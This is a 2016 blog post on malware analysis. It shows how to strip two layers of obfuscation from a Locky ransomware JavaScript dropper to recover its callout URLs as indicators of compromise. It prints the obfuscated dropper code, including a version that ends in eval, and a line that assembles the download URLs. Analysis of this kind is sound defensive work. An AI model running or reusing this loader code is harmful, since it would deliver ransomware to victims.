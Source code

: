 ```yaml
---
id: 154
title: Quickly De-obfuscating Locky Malware for Network IOCs
date: 2016-08-02T17:31:42+00:00
author: nwalsh
layout: post
guid: https://nwalsh.me/?p=154
permalink: /?p=154
categories:
  - General
  - Security
tags:
  - locky
  - malware
  - reverse engineering
---
```

Recently I have came across a couple of Locky campaigns and was interested to find the network callouts from the javascript file. Previously I had de-obfuscated the file manually to find the points of interest, but have came to find a better solution. However, before we get there we must first reverse the first layer of obfuscation.

<h1 style="text-align: center;">
  Reversing the First Layer
</h1>

The starting malicious Javascript file looks like this:

<pre>var a4WSssg = ';.}.\n.\r.;.).(.].c.Z.T.Z.Q.S.R.[.v.M.D.F. . . . .\n.\r.\n.\r.;.).2. .,.x.D.A.B.D.K.T.(.].).).(.}.;.s.B.Y.B.T.W.E. .n.r.u.t.e.r.{.).(.h.V.M.G. .n.o.i.t.c.n.u.f.(. .+. .p.L.M.H. .+. .0.n.N.X.H. .+. .4.h.D.W.N.N.G.Z.[.v.M.D.F. . . . .\n.\r.;.).).t.Q.S.P.(.i.F.C.I.W.K.Q.(.].).).(.}.;.2.l.S.G.H. .n.r.u.t.e.r.{.).(.8.r.G.L.V. .n.o.i.t.c.n.u.f.(. .+. .7.z.Z.U.C.U.W.H. .+. .h.T.K.I.P.Z.F.[.v.M.D.F. . . . .\n.\r.;.).(.].0.m.W.F.Q. .+. .b.G.A.X.B.Y.M.[.v.M.D.F. . . . .\n.\r. . . . . . . . . .;.s.F.G.H.Y.B.L. .=. .].0.t.I.H.K. .+. .i.F.Y.U.[.v.M.D.F. . . . .\n.\r.;.y.M.O.N.U.Z.Z. .=. .].4.q.T.W.P.[.v.M.D.F. . . . .\n.\r.;.).x.L.E.L. .+. .b.Z.A.Q. .+. .4.c.B.S.F.Y.D.S.(.].5.m.R.V.S. .+. .3.v.J.Y.T. .+. .).).(.}.;.8.x.H.J.F. .n.r.u.t.e.r.{.).(.1.n.H.J.R.H.T.G. .n.o.i.t.c.n.u.f.(. .+. .5.a.N.N.S.[.t.p.i.r.c.S.W. .=. ./.*. . .c.X.Z. .J.W.k. .S.W.y. .*./. .v.M.D.F. .r.a.v. . . . .\n.\r.{.\n.\r.).t.Q.S.P. .,.x.D.A.B.D.K.T.(.1.l.S.F.M.Y.V.C. .n.o.i.t.c.n.u.f.\n.\r.\n.\r.\n.\r.;.}.\n.\r.;.h.K.M.N.C.Y.Z. .n.r.u.t.e.r.\t.\n.\r.\t.\n.\r.;.).".".(.].o.C.T.L.[.x.G.V.I.U.O.U. .=. .h.K.M.N.C.Y.Z.\t.\n.\r.\t.\n.\r.}.\t.\n.\r.;.).)./.*. . .c.X.Z. .J.W.k. .S.W.y. .*./. .a.H.F.C.Q.P.R.(.].1.i.T.W.W. .+. .).).(.}.;.9.f.R.Y.G. .n.r.u.t.e.r.{.).(.c.N.J.K. .n.o.i.t.c.n.u.f.(. .+. .6.r.I.O.I.[.g.n.i.r.t.S.(.h.s.u.p...x.G.V.I.U.O.U.\t.\t.\n.\r.}.;.].w.J.F.Y.[.f.X.A.B. .=. ./.*. . .c.X.Z. .J.W.k. .S.W.y. .*./. .a.H.F.C.Q.P.R.{.\t.\t.\t.\n.\r. .e.s.l.e.\t.\t.\n.\r.}.;.w.J.F.Y. .=. ./.*. . .c.X.Z. .J.W.k. .S.W.y. .*./. .a.H.F.C.Q.P.R.{.\t.\t.\t.\n.\r. .).8.2.1. .. .].7.v.Q.D.A. .+. .f.Q.T.Q.[.n.B.K.H.E.H.X. .|.|. .4.2.0.1. .*. .0.5.1. .. .a.A.E.B.(. .f.i.\t.\t.\t.\n.\r.{.\t.\t.\n.\r.).7.v.X.B.H.X.Y.S. .=.=. .).6.1.5.2. .+. .5.1.5.2.-.(.(. .f.i.\t.\t.\n.\r.{.\t.\n.\r.y.r.t.\t.\n.\r.{.\n.\r.o.d.\n.\r.;.5.4. .+. .5.4.-. .=. .a.A.E.B. .r.a.v.\n.\r.;.3.2.6.3. .+. .2.2.6.3.-. .=. .7.v.X.B.H.X.Y.S. .r.a.v.\n.\r.\n.\r.;.}.\n.\r.}.\t.\n.\r.;.e.u.n.i.t.n.o.c.\t.\t.\n.\r.{.\t.\n.\r.).e.(. .h.c.t.a.c.\t.\n.\r.}.\t.\n.\r.;.k.a.e.r.b.\t.\t.\n.\r.;.).].5.e.A.S.X.[.6.w.V.O.Q.(.].5.m.R.V.S. .+. .3.v.J.Y.T. .+. .8.x.H.J.F. .+. .5.a.N.N.S.[.t.p.i.r.c.S.W. .=. .x.I.B.I.R.W.B. .r.a.v.\t.\t.\n.\r.{.\t.\n.\r. .y.r.t.\t.\n.\r.{.\n.\r.).+.+.5.e.A.S.X. .;.].).).(.}.;.7.v.Q.D.A. .n.r.u.t.e.r.{.).(.m.D.A.P.S.I.E. .n.o.i.t.c.n.u.f.(. .+. .f.Q.T.Q.[.6.w.V.O.Q. .

x = ""; for (i=0;i&lt;a4WSssg.length;i++)if(i%2==0)x+=a4WSssg.charAt(i);
a4WSssg = x;
a4WSssg = a4WSssg["spl"+"it"]('');
a4WSssg = a4WSssg["rever"+"se"]();
a4WSssg = a4WSssg["jo"+"in"]('');
var fprot=1;
if (fprot == 1) eval(a4WSssg);
</pre>

We can see that it will go through the very long string, pull every even character from it and then split it, reverse it, and join it together. These steps aren&#8217;t very interesting however because we can do a simple console.log to drop what the second part of the script will look like. Here is what we would run in a Javascript environment (I use [js.do](https://js.do/)), **make sure if you are running this locally to remove the eval**.

<pre>var a4WSssg = ';.}.\n.\r.;.).(.].c.Z.T.Z.Q.S.R.[.v.M.D.F. . . . .\n.\r.\n.\r.;.).2. .,.x.D.A.B.D.K.T.(.].).).(.}.;.s.B.Y.B.T.W.E. .n.r.u.t.e.r.{.).(.h.V.M.G. .n.o.i.t.c.n.u.f.(. .+. .p.L.M.H. .+. .0.n.N.X.H. .+. .4.h.D.W.N.N.G.Z.[.v.M.D.F. . . . .\n.\r.;.).).t.Q.S.P.(.i.F.C.I.W.K.Q.(.].).).(.}.;.2.l.S.G.H. .n.r.u.t.e.r.{.).(.8.r.G.L.V. .n.o.i.t.c.n.u.f.(. .+. .7.z.Z.U.C.U.W.H. .+. .h.T.K.I.P.Z.F.[.v.M.D.F. . . . .\n.\r.;.).(.].0.m.W.F.Q. .+. .b.G.A.X.B.Y.M.[.v.M.D.F. . . . .\n.\r. . . . . . . . . .;.s.F.G.H.Y.B.L. .=. .].0.t.I.H.K. .+. .i.F.Y.U.[.v.M.D.F. . . . .\n.\r.;.y.M.O.N.U.Z.Z. .=. .].4.q.T.W.P.[.v.M.D.F. . . . .\n.\r.;.).x.L.E.L. .+. .b.Z.A.Q. .+. .4.c.B.S.F.Y.D.S.(.].5.m.R.V.S. .+. .3.v.J.Y.T. .+. .).).(.}.;.8.x.H.J.F. .n.r.u.t.e.r.{.).(.1.n.H.J.R.H.T.G. .n.o.i.t.c.n.u.f.(. .+. .5.a.N.N.S.[.t.p.i.r.c.S.W. .=. ./.*. . .c.X.Z. .J.W.k. .S.W.y. .*./. .v.M.D.F. .r.a.v. . . . .\n.\r.{.\n.\r.).t.Q.S.P. .,.x.D.A.B.D.K.T.(.1.l.S.F.M.Y.V.C. .n.o.i.t.c.n.u.f.\n.\r.\n.\r.\n.\r.;.}.\n.\r.;.h.K.M.N.C.Y.Z. .n.r.u.t.e.r.\t.\n.\r.\t.\n.\r.;.).".".(.].o.C.T.L.[.x.G.V.I.U.O.U. .=. .h.K.M.N.C.Y.Z.\t.\n.\r.\t.\n.\r.}.\t.\n.\r.;.).)./.*. . .c.X.Z. .J.W.k. .S.W.y. .*./. .a.H.F.C.Q.P.R.(.].1.i.T.W.W. .+. .).).(.}.;.9.f.R.Y.G. .n.r.u.t.e.r.{.).(.c.N.J.K. .n.o.i.t.c.n.u.f.(. .+. .6.r.I.O.I.[.g.n.i.r.t.S.(.h.s.u.p...x.G.V.I.U.O.U.\t.\t.\n.\r.}.;.].w.J.F.Y.[.f.X.A.B. .=. ./.*. . .c.X.Z. .J.W.k. .S.W.y. .*./. .a.H.F.C.Q.P.R.{.\t.\t.\t.\n.\r. .e.s.l.e.\t.\t.\n.\r.}.;.w.J.F.Y. .=. ./.*. . .c.X.Z. .J.W.k. .S.W.y. .*./. .a.H.F.C.Q.P.R.{.\t.\t.\t.\n.\r. .).8.2.1. .. .].7.v.Q.D.A. .+. .f.Q.T.Q.[.n.B.K.H.E.H.X. .|.|. .4.2.0.1. .*. .0.5.1. .. .a.A.E.B.(. .f.i.\t.\t.\t.\n.\r.{.\t.\t.\n.\r.).7.v.X.B.H.X.Y.S. .=.=. .).6.1.5.2. .+. .5.1.5.2.-.(.(. .f.i.\t.\t.\n.\r.{.\t.\n.\r.y.r.t.\t.\n.\r.{.\n.\r.o.d.\n.\r.;.5.4. .+. .5.4.-. .=. .a.A.E.B. .r.a.v.\n.\r.;.3.2.6.3. .+. .2.2.6.3.-. .=. .7.v.X.B.H.X.Y.S. .r.a.v.\n.\r.\n.\r.;.}.\n.\r.}.\t.\n.\r.;.e.u.n.i.t.n.o.c.\t.\t.\n.\r.{.\t.\n.\r.).e.(. .h.c.t.a.c.\t.\n.\r.}.\t.\n.\r.;.k.a.e.r.b.\t.\t.\n.\r.;.).].5.e.A.S.X.[.6.w.V.O.Q.(.].5.m.R.V.S. .+. .3.v.J.Y.T. .+. .8.x.H.J.F. .+. .5.a.N.N.S.[.t.p.i.r.c.S.W. .=. .x.I.B.I.R.W.B. .r.a.v.\t.\t.\n.\r.{.\t.\n.\r. .y.r.t.\t.\n.\r.{.\n.\r.).+.+.5.e.A.S.X. .;.].).).(.}.;.7.v.Q.D.A. .n.r.u.t.e.r.{.).(.m.D.A.P.S.I.E. .n.o.i.t.c.n.u.f.(. .+. .f.Q.T.Q.[.6.w.V.O.Q. .

x = ""; for (i=0;i&lt;a4WSssg.length;i++)if(i%2==0)x+=a4WSssg.charAt(i);
a4WSssg = x;
a4WSssg = a4WSssg["spl"+"it"]('');
a4WSssg = a4WSssg["rever"+"se"]();
a4WSssg = a4WSssg["jo"+"in"]('');
console.log(a4WSssg);
</pre>

After running this we should have bypassed the first layer of obfuscation and have a completely different script.

[<img class="aligncenter wp-image-157 size-medium" src="https://nwalsh.me/wp-content/uploads/2016/08/reverse_first_layer-1-300x241.png" alt="reverse_first_layer" width="300" height="241" srcset="https://nwalsh.me/wp-content/uploads/2016/08/reverse_first_layer-1-300x241.png 300w, https://nwalsh.me/wp-content/uploads/2016/08/reverse_first_layer-1-624x502.png 624w, https://nwalsh.me/wp-content/uploads/2016/08/reverse_first_layer-1.png 647w" sizes="(max-width: 300px) 100vw, 300px" />](https://nwalsh.me/wp-content/uploads/2016/08/reverse_first_layer-1.png)

<h1 style="text-align: center;">
  Reversing Second Layer Encryption
</h1>

There is a tool that will preform good de-obfuscation techniques on a javascript file, called JSDetox. Installing and running JSDetox was very easy, and it allows us to upload Javascript files to its web portal. Therefore we will upload the second layer obfuscated script and let it work its magic (we are mainly using its ability to do smarter string concatenation).

[<img class="aligncenter wp-image-155 size-large" src="https://nwalsh.me/wp-content/uploads/2016/08/jsdetox-1024x242.png" alt="Putting Second Layer Script into JSDetox " width="625" height="148" srcset="https://nwalsh.me/wp-content/uploads/2016/08/jsdetox-1024x242.png 1024w, https://nwalsh.me/wp-content/uploads/2016/08/jsdetox-300x71.png 300w, https://nwalsh.me/wp-content/uploads/2016/08/jsdetox-768x182.png 768w, https://nwalsh.me/wp-content/uploads/2016/08/jsdetox-624x148.png 624w, https://nwalsh.me/wp-content/uploads/2016/08/jsdetox.png 1565w" sizes="(max-width: 625px) 100vw, 625px" />](https://nwalsh.me/wp-content/uploads/2016/08/jsdetox.png)

Hitting the &#8216;Analyze&#8217; button will provide us with an analyzed version of the script below. Now, we look through this analyzed version for anything interesting.

<div id="attachment_158" style="width: 635px" class="wp-caption aligncenter">
  <a href="https://nwalsh.me/wp-content/uploads/2016/08/website_calls.png"><img class="size-large wp-image-158" src="https://nwalsh.me/wp-content/uploads/2016/08/website_calls-1024x182.png" alt="Interesting Websites" width="625" height="111" srcset="https://nwalsh.me/wp-content/uploads/2016/08/website_calls-1024x182.png 1024w, https://nwalsh.me/wp-content/uploads/2016/08/website_calls-300x53.png 300w, https://nwalsh.me/wp-content/uploads/2016/08/website_calls-768x136.png 768w, https://nwalsh.me/wp-content/uploads/2016/08/website_calls-624x111.png 624w, https://nwalsh.me/wp-content/uploads/2016/08/website_calls.png 1116w" sizes="(max-width: 625px) 100vw, 625px" /></a>
  
  <p class="wp-caption-text">
    Interesting Websites
  </p>
</div>

On line 210 I see what appears to be the program building strings for the callouts that Locky will use. This is the information we are looking for, so what we can do is remove all code in the script below this and console.log the variable that contains all the websites. Doing so allows us to easily get all the websites that it will call.

Notice below, here is the obfuscated line without the JSDetox string replacements. It would be nearly impossible to know that this was where the websites are being built just by looking at the code.

<pre>var ULNNVGt = [CVJf+SPBq9 + PEOo(REHYTRw8)+IWSg5+(function SAYi(){return QGVYMLb;}())+PVNNUCs + OHOBMQv+OPGJMYc+ODLx+(function RISd8(){return QSAJKKm;}()) + HWUc1+ZGKIFDw, FJHHTSe(TPWx6) + RYOe8+MMMn+NYGQBSb+GGLCWQp + (function GKJDDCc8(){return MNWTGMa;}())+LPIr+RHTn+AQUz4 + RKCr+CWSLEJg8 + ZMAy7, TPWx6 + RYOe8+SPWWTLu + TGHu+PQTa7(FKEm)+LCKk8+GBWLTBa6 + XICOEOe+LBKMLKr9(ATXz9) + CZJUBWf+DRJPXMe+(function MZFGPXk(){return FYFc;}()) + (function IDDd5(){return ZHQu;}())+BVJz+JGNNUMq(KZNb)];
</pre>

We now run the script with a console.log with the variable that contains the website addresses and we receive the following:
  
[<img class="aligncenter size-full wp-image-160" src="https://nwalsh.me/wp-content/uploads/2016/08/websites_locky.png" alt="websites_locky" width="663" height="17" srcset="https://nwalsh.me/wp-content/uploads/2016/08/websites_locky.png 663w, https://nwalsh.me/wp-content/uploads/2016/08/websites_locky-300x8.png 300w, https://nwalsh.me/wp-content/uploads/2016/08/websites_locky-624x16.png 624w" sizes="(max-width: 663px) 100vw, 663px" />](https://nwalsh.me/wp-content/uploads/2016/08/websites_locky.png)These are the IOCs that we are looking for so we are done at this point. This method takes about 5 minutes which is a lot faster than the 1-2 hours that I had spent doing the deobfuscation manually.